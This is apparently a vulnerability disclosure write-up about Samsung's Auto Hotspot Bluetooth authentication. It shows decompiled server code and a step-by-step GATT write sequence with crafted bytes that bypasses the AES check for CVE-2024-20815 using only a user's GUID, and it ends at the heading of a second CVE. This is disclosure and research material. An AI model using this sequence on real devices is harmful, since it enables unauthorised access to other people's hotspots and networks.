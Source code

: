 Auto Hotspot devices are shown in the wifi list. Selecting it in the list will turn on the Mobile Hotspot on the target device, negotiate credentials and connect to the target device.

# What could I exploit

## mUsertype 1 (CST) AES authentication can be bypassed. (https://nvd.nist.gov/vuln/detail/CVE-2024-20815)

The implementation of CHARACTERISTIC_ENCRYPTED_AUTH_ID in com.samsung.android.server.wifi.ap.smarttethering.SemWifiApSmartGattServer initially takes mUsertype from this.mClientConnections:

```
this.mVersion = this.mClientConnections.get(device.getAddress()).mVersion;
this.mUserType = this.mClientConnections.get(device.getAddress()).mUserType;
String mAESKey = this.mClientConnections.get(device.getAddress()).mAESKey;
if (this.mVersion == 1) {
  if (this.mUserType == 1) {
    StringBuilder var12 = new StringBuilder();
    var12.append("Using AES:");
```
But after verifying the packet, it takes the mUsertype from the first byte of the AUTH_ID:
```
if (auth_id_valid) {
  this.mUsertype = value[0];
  int offset = value[1];
  String var179 = new String(value, 2, offset);
  this.mAuthDevices.put(device.getAddress(), var223);
  ...
  if (this.mUsertype == 1) {
```

By authenticating with MHS_VER=0x0102, but crafting AUTH_ID with mUsertype 1, AES with mUsertype can be bypassed and authentication with only knowledge of the users GUID and without knowledge of the users AES key can be performed.

Example:

```
1. Read  [MHS_SIDE_GET_TIME]: b'1694987600737'
2. Write [MHS_VER_UPDATE]: written: b'\x01\x02'
3. Write [NOTIFY_MHS_ENABLED]: written
4. Write [MHS_ENCRYPTED_AUTH_ID]: written: bytearray(b'\x01\n$MY_GUID\x08Eriks-S9\x1$MY_MAC\x03\x02\x01\x06\x06\x06\x06\x06\x06')
5. Read  [AUTH_STATUS]: b"\x01\x17Erik's Galaxy S23 Ultra\x19SamsungReverseEngineering\x00xx:xx:xx\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
```

## mUsertype 1 (CST) can be replayed and AES confidentiality bypassed. (https://nvd.nist.gov/vuln/detail/CVE-2024-20816)
